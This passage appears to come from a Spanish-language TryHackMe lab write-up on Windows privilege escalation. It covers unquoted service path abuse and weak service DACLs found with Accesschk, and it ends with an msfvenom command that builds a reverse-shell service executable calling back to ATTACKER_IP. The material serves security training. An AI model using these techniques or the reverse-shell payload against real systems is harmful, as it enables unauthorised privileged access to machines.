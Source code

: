 Una entrecomillación adecuada provoca que SCM distinga sin lugar a dudas cuál es ejecutable adecuado, sin embargo, sin esta pueden haber problemas ya que los espacios pueden volver un comando ambiguo:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220901203651.png' | relative_url }}" text-align="center"/>
</div>

Los espacios generalmente delimitan la separación entre un binario y un parámetro. Veámos cómo podemos aprovecharnos de esto.

Esto tiene que ver con la forma en que el CMD analiza un comando. Por lo general, cuando envía una instrucción los espacios se usan como separadores de argumentos a menos que formen parte de un string entrecomillada. Esto significa que la interpretación "correcta" del comando sin comillas sería ejecutar  'C:\\MyPrograms\\Disk.exe' y tomar el resto como argumentos.

En lugar de fallar como probablemente debería, SCM intenta ayudar al usuario y comienza a buscar cada uno de los binarios en el orden que se muestra en la tabla:

1. Primero, busque 'C:\\MyPrograms\\Disk.exe'. Si existe, el servicio ejecutará este ejecutable.
2. Si este último no existe, buscará 'C:\\MyPrograms\\Disk Sorter.exe'. Si existe, el servicio ejecutará este ejecutable.
3. Si este último no existe, buscará 'C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe'. Se espera que esta opción tenga éxito y, por lo general, se ejecutará en una instalación predeterminada.

Llegados a este punto, el problema se vuelve evidente. Si un atacante conociera este comportamiento y encontrara una debilidad de este tipo podría introducir un ejecutable malicioso con un nombre parecido que fuera ejecutado en uno de los pasos anteriores.

Es importante recordar que debemos tener permisos de escritura en el directorio en el que queremos depositar nuestro binario malicioso, esto en general no es posible en carpetas como *Program Files* o por el estilo. Podemos comprobarlo con *icacls*.

<br />

- *Insecure Service Permissions*:

Un último caso consiste en que el DACL de un servicio te permita modificar su configuración permitiéndote cambiar el binario asociado al servicio por uno malicioso.

Para acceder al DACL de un servicio utilizamos el comando *Accesschk*:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220901224341.png' | relative_url }}" text-align="center"/>
</div>

Observamos que el grupo *BUILTIN\\Users* tiene el permiso SERVICE_ALL_ACCESS que significa que cualquier usuario puede reconfigurar el servicio.

Así, creamos un ejecutable malicioso:

```bash
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe
```
